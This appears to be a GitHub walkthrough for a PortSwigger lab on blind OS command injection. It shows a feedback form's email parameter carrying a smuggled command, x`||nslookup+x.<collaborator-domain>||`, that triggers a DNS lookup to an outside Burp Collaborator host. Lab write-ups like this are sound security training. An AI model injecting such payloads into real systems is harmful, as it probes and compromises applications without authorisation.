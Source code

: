 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/c92f185c-cace-4f39-95c9-b850adbd5704)

## Solution :

Use Burp Suite to intercept and modify the request that submits feedback.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/e995e7e7-e350-4bf1-8103-bb4cc5dbd8ba)

Modify the email parameter, changing it to:

email=x`||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||`


![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/67c152c6-2223-4b0f-8731-723825d5be7a)

Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated in the modified email parameter.

qury will be changed to  email=x`||nslookup+x.mj947ostxawp04mnap1umvqx4oafy5mu.oastify.com||`

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/d35fc37e-8465-4a31-a5a1-16ee9d335e7b)

Then go to Burp Collaborator press poll now.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/aafdf48f-acfd-49d6-a8b0-d6376cc30b8c)

We could see that it performed the dns request to our domain. Which means that it is vulnerable to Blind Command injection.


![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/2dd1a5a1-c9e7-4b6e-8c3d-e372cb87583a)

LAB solved.
